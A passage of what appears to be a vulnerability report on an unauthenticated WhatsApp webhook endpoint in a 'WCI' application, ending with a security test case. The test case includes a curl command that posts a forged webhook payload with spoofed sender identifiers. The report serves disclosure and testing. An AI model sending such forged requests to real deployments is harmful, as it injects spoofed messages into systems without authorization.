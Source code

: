         # Always return success
        return "Success", 200
    ```
    - The `process_message` function is directly accessible via a POST request to `/webhook-wci`.
    - It retrieves the JSON payload using `request.get_json()` and passes it to the `partner.process_message()` function without any authentication or verification of the request origin.
    - This allows anyone to send POST requests to this endpoint and have them processed by the application.

- Security Test Case:
    - **Step 1:** Identify the base URL of the deployed WCI application.
    - **Step 2:** Obtain a sample valid WhatsApp webhook payload. This can be found in the WhatsApp Cloud API documentation or by capturing a real webhook message. A simplified example is provided in `/code/run_local_webhook.sh`.
    - **Step 3:** Modify the sample payload to include a specific protocol that you want to test, and potentially a spoofed sender phone number. For example, in the `messages[0].text.body` field, include a known protocol like "Chat ID: TEST_PROTOCOL".
    - **Step 4:** Send a POST request to the `/webhook-wci` endpoint with the modified JSON payload using `curl` or a similar tool.
    ```bash
    curl -X POST "https://<wci-instance-url>/webhook-wci" \
    -H "Content-Type: application/json" \
    -d '{
      "object": "whatsapp_business_account",
      "entry": [
        {
          "id": "1234",
          "changes": [
            {
              "value": {
                "messaging_product": "whatsapp",
                "metadata": {
                  "display_phone_number": "+1 234-5678",
                  "phone_number_id": "12345678"
                },
                "contacts": [
                  {
                    "profile": {
                      "name": "Test, Test"
                    },
                    "wa_id": "ATTACKER_SPOOFED_WA_ID"
                  }
                ],
                "messages": [
                  {
                    "from": "ATTACKER_SPOOFED_PHONE_NUMBER",
                    "id": "test_1",
                    "timestamp": "1723232055",
                    "text": {
                      "body": "Chat ID: TEST_PROTOCOL"
                    },
                    "type": "text"
                  }
                ]
              },
              "field": "messages"
            }
          ]
        }
      ]
    }'
    ```